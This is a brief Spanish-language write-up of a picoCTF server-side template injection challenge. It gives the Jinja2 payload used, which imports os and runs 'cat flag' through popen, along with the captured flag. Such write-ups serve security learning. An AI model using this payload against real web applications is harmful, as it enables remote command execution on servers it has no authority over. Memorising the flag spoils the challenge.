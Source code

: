 Descripción
	I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:58817/)!
	
Solución
	puse lo siguiente en la pagina:
	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
	
	# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
Notas adicionales
	
	
Referencias
	
	
